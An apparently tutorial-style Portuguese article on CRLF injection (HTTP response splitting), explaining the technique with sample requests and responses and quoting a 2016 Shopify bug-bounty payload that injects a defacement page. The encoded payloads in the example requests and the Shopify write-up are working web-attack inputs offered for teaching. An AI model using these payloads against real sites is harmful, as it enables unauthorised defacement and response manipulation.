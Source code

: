 # Carriage Return Line Feed

### O que é:

A partir desta vulnerabilidade será muito importante o leitor entender bem o funcionamento da web, então caso ainda esteja com dúvidas, releia os artigos sobre o [Protocolo HTPP](Protocolo%20HTTP-HTTPS.md), e o [Cliente-Servidor na web](Cliente-Servidor%20na%20WEB.md), feito isto, vamos à  vulnerabilidade.

O CRLF são caracteres usados para pular linhas, eles correspondem respectivamente, ao fim de uma linha e o início de outra para muitos protocolos, incluindo o HTTP, nele estes caracteres são representados por %0D %0A eles são, respectivamente, \r \n.

Achar esta vulnerabilidade é um pouco difícil pois o atacante deve estar atento as requests e responses mas caso consiga encontrá-la ele pode desde modificar uma response até criar um Firewall Evasion, que é quando o atacante consegue burlar verificações de segurança.

### Funcionamento Técnico:

Esta vulnerabilidade ocorre quando o atacante injeta um código no cabeçalho da request e este valor é "refletido" no cabeçalho da response, assim, quando é feita a injeção de caracteres CRLF ele pode criar sua própria response, conseguindo assim até criar uma página html inteira.

O local em que mais se encontra este problema é no cabeçalho Set-Cookie da response, mas ele pode ser encontrado em outros locais.

Imagine que ao inserir seus dados em um input você envie uma request parecida com esta para o servidor:


```http
GET /destino.php?nome=teste HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/home.html
Upgrade-Insecure-Requests: 1
```
e o servidor devolva esta response:

```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 13:54:45 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste; expires=Fri, 15-May-2020 13:54:47 GMT; Max-Age=2
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
Percebido que nome == Cookie, você pode injetar crlf para gerar uma uma quebra de linha, inserindo assim, o que você quiser abaixo de Cookie.

Exemplo:

```http
GET /destino.php?nome=teste%0d%0a%0d%0a%3Chtml%3E%3Cbody%3EVoce%20foi%20hackeado%3C%2Fbody%3E%3C%2Fhtml%3E HTTP/1.1
Host: 192.168.15.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.15.9/home.html
Upgrade-Insecure-Requests: 1
```
response:
```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 14:00:07 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste

<html><body>Voce foi hackeado></body</html>; expires=Fri, 15-May-2020 14:00:09 GMT; Max-Age=2
Content-Length: 65
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
### Exemplo:

Este report foi feito em 2016 para a empresa shopify, nele o pesquisador percebeu que a ultima url que ele tinha acessado era refletida no cookie, então caso injetasse um código crlf seria possível modificar a response.

A url vulnerável era esta: https://v.shopify.com/last_shop?shop=krankopwnz.myshopify.com 

O pesquisador injetou ```%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20te\
xt/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>deface</html>``` após o fim da url, gerando assim uma página com o deface.

PoC:![](https://i.imgur.com/0lEiNeb.png)

### Como explorar:

Para explorar esta vulnerabilidade o pesquisador deve estar atento as requests e as responses da aplicação, para perceber quando alguns parâmetros estão sendo refletidos, para então, tentar montar um payload.

Acima, comentei que este erro é encontrado bastante no set-cookie, mas ele também pode ser encontrado no header Location e no header da request, de modo a editá-la antes de enviar ao servidor.

É interessante notar que esta vulnerabilidade pode gerar problemas como HTML Injection, Cross-Site Scripting e erros de logs no servidor, logo para extrair o máximo deste problema, esteja atento a tudo que ele pode afetar.